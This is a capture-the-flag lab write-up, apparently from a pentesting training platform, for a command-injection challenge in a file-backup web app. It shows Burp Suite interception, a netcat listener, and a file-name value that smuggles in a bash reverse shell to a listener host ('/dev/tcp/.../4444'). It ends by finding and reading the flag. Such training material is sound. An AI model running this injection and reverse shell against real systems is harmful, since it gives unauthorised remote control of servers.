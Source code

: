 ﻿![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable File Backup Utility - Command Injection </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1930>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Interacting with the webapp. 

When the lab starts up, the File Backup webapp opens up in the browser: 

Click on the Choose a File field and upload README file: ![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.003.jpeg)![ref2]


![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.005.png)

Click on the "UPLOAD" button. 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.006.jpeg)

The file was uploaded successfully. ![ref2]

![ref1]

**Step 2:** Configure Burp proxy to intercept the file upload requests. 

Configure the browser to use the Burp proxy listener as its HTTP Proxy server: Using FoxyProxy addon to setup HTTP Proxy profile for the browser: 

Click on the icons for FoxyProxy on the top left. 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.007.png)

Select Burp Suite profile from the list. 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.008.png)

Launch BurpSuite. ![ref2]

Select Web Application Analysis > burpsuite 


![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.009.png)

The following window will appear: ![ref2]

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.010.png)

Click Next. 

Finally, click Start Burp in the following window: ![ref2]

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.011.jpeg)

![ref1]

The following window will appear after BurpSuite has started: 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.012.jpeg)

**Step 3:** Upload a file and perform Command Injection. Select the README file and upload it to the server. ![ref2]

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.013.jpeg)


![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.014.png)

Forward the intercepted request. 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.015.jpeg)

Notice the file name and data are uploaded to the server. Send the above request to repeater. ![ref2]

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.016.png)

Start netcat listener on the host: **Command:** nc -lvp 4444 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.017.png)

Modify the file name and append the netcat command. ![ref2]

Copy the IP address from the Host header and set the last digit as 2. 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.018.png)

Send the above request and notice the response in the terminal having netcat listener: 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.019.png)

**Step 4:** Gaining a shell on the remote machine. Start a netcat listener on the host machine: ![ref2]**Command:** nc -lvp 4444 

![ref1]

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.020.png)

Set the file parameter to: 

**file:** README; bash -c 'bash -i >& /dev/tcp/192.105.241.2/4444 0>&1' 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.021.jpeg)

Notice the connection is received in the terminal: ![ref2]

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.022.png)

**Step 5:** Retrieving the flag. 

**Commands:** 

find / -name flag 2>/dev/null cat /tmp/flag 

![](Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.023.png)

**Flag:** 05d52d221ec8f4860da7733ff91c8c45 **References:** 

1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) ![ref2]
1. A1: Injection ([https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion.html](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection.html)) 

[ref1]: Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.002.png
[ref2]: Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.004.png
